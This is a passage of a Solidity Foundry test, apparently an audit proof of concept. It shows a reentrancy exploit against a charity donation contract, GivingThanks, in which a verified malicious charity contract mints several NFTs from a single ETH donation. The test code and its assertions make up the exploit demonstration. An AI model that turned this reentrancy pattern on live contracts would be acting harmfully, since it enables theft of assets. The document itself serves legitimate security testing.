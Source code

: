 ```Solidity

    function setUp() public {
        admin = makeAddr("admin");
        donor = makeAddr("donor");

        vm.startPrank(admin);
        registryContract = new CharityRegistry();
        charityContract = new GivingThanks(address(registryContract));
        vm.stopPrank();

        vm.startPrank(donor);
        maliciousCharity = new MaliciousCharity(address(charityContract));
        vm.stopPrank();

        vm.startPrank(admin);
        registryContract.registerCharity(address(maliciousCharity));
        registryContract.verifyCharity(address(maliciousCharity));
        charityContract.updateRegistry(address(registryContract));
        vm.stopPrank();
    }

    function testReentrancyNFTExploit() public {
        // Fund the donor
        vm.deal(donor, DONATION_AMOUNT);
        
        uint256 initialTokenCounter = charityContract.tokenCounter();
        
        console.log("Initial token counter:", initialTokenCounter);
        console.log("Initial donor ETH:", DONATION_AMOUNT);
        
        // Perform the attack
        vm.startPrank(donor);
        charityContract.donate{value: DONATION_AMOUNT}(address(maliciousCharity));
        vm.stopPrank();
        
        uint256 finalTokenCounter = charityContract.tokenCounter();
        
        console.log("Final token counter:", finalTokenCounter);
        console.log("Total NFTs minted:", finalTokenCounter - initialTokenCounter);
        console.log("ETH spent per NFT:", DONATION_AMOUNT / (finalTokenCounter - initialTokenCounter));
        
        // Verify exploit results
        assertEq(
            finalTokenCounter,
            initialTokenCounter + maliciousCharity.getAttackRounds() + 1,
            "Multiple NFTs should be minted with single ETH payment"
        );

        // Verify all NFTs were minted to the donor or malicious contract
        for (uint256 i = 0; i < maliciousCharity.getAttackRounds() + 1; i++) {
            address owner = charityContract.ownerOf(initialTokenCounter + i);
            assertTrue(
                owner == donor || owner == address(maliciousCharity),
                "NFT should be owned by donor or malicious contract"
            );
        }

        // Verify we used the same ETH multiple times
        assertEq(
            finalTokenCounter - initialTokenCounter,
            maliciousCharity.getAttackRounds() + 1,
            "Should mint multiple NFTs for single ETH payment"
```